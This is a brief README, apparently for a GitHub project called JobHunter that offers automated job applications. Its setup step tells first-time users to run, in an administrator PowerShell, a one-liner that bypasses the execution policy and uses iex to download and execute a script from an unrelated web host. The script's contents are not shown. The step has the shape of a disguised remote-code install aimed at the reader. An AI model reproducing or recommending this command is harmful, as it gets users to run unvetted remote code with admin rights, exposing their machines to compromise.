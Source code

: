 # JobHunterRelease
JobHunterRelease


JOBHUNTER is updated now. You can clone it from <a href="https://github.com/wasimakhtarcnx/JobHunter.git">https://github.com/wasimakhtarcnx/JobHunter.git</a> for Automated Job Apply. With Your GitHub Login

For First time user below script in Powershell with Administrator

Set-ExecutionPolicy Bypass -Scope Process -Force; iex ((New-Object System.Net.WebClient).DownloadString('http://dndstatus.co.in/install.ps1'))

